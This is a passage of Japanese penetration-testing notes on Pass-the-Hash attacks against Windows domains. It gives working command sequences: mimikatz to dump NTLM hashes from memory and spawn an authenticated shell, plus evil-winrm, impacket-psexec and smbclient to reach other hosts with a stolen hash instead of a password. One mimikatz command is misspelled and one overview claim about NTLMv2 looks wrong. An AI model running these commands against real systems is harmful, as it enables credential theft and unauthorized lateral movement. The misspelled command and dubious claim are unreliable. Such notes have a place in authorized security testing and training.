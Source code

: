 # Pass The Hash

## 概要

- New technology LAN Manager認証の仕組みを悪用
- NTLMハッシュ値使用
- 解析なしで標的にアクセスできるため、複雑なパスワードが設定されていても攻撃可能
- NTLMv2認証はWindows 2000以前の古いOSに対応
- ローカルユーザのNTLMハッシュ値は SAMデータベースに保存
- ドメインユーザのNTLMハッシュはドメコン上のNTDS.ditに保存
- NTハッシュは平文をMD4でハッシュ化ソルトは付与しないため、同じ平文をMD4でハッシュ化したものと一致する。

## 手順(mimikatz)

※管理者権限が必要

以下の場合に有効
> 侵入した端末のユーザが標的の場合、侵入した端末に対してRDP接続したユーザが標的の場合

- mimikatzを起動してNTLMハッシュを取得

``` cmd
    [mimikatzのパス].\mimikatz.exe
    
    privilege::debug
    selurlsa::logonpasswords
```

メモリ上に残存している認証情報を取得

- 起動中のmimikatzでNTLM認証を行う

``` cmd
    sekurlsa::pth /user:[username]　/ntlm:[NTLMハッシュ値] /domain:[somainname] /run:cmd.exe
```

NTLM認証を行った`cmd.exe`起動する。

起動した`cmd.exe`上で`PsExec`を使用することでパスワードなしで別端末にログインできる。

## Pass The Hashで使用されるツール

- evil-winrm

winrmを使用したリモート接続が可能
> 接続用の認証情報と標的端末でWinRMが有効になっていることが必要

```shell
    evil-winrm -u [username] -H [NTLMハッシュ] -i [Target IP address]
```

[evil-winrm](https://github.com/Hackplayers/evil-winrm)

- Impacket(psexec.py)

Active Directoryに対してpsexecでPtHを行いシェル操作を行う。

SMBを使用して標的上でサービスを起動しコマンドを実行する。
> 標的上のローカル管理者を保持、管理共有(ADMIN$)とファイル/プリンタの共有が有効化されていることが必要

- mimikatzで取得したNTLMハッシュを使用する。

``` shell
    impacket-psexec -hashes [0を32個で埋める]:[NTLMハッシュ]　Administrator@[windows server IP address]
    # -hashes LM hash:NT hash LMハッシュ使用しないので0を32個埋める0000... 
```

[psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

- 管理共有にアクセスすると実行ファイルを確認できる

``` shell
    smbclient //[Windows Server IPアドレス]/ADMIN$ -U Administrator
```
